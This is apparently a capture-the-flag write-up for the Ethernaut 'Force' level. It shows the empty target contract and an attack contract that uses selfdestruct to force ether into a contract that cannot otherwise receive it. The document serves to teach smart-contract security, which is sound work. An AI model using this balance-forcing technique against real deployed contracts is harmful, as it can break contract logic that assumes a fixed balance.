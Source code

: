<img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Look Over Target Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain.
